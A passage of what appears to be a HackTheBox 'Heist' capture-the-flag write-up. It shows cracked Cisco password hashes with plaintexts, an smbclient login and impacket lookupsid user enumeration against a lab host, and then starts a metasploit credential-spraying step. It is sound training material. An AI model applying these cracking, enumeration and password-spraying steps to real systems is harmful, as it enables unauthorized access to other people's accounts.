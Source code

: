 The other two hashes can be decoded simply with an online tool, like [this](https://www.ifm.net.nz/cookbooks/passwordcracker.html) one, so here they are:
```
0242114B0E143F015F5D1E161713:$uperP@ssword
02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
```

## Further exploration
As we have a username and some passwords, we can try to authenticate to the `smb`
server:
```
$ smbclient -L \\\\10.10.10.149 -U 'hazard%stealth1agent'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Failed to connect with SMB1 -- no workgroup available
```

Out of luck, because of the order that they are written in the file, the first
one works!

We can use `lookupsid` from
[impacket](https://github.com/SecureAuthCorp/impacket) to enumerate users in the
Windows domain:
```
$ ./lookupsid.py 10.10.10.149/hazard:stealth1agent@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

## Getting a shell
We can now try to login with all usernames and passwords combinations that
we've found. There's a handy metasploit module that can help us. After writing
all the users in a file called `users` and the passwords in `pws`, let's load the
module and set the options:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/heist/metasploit-options.png)
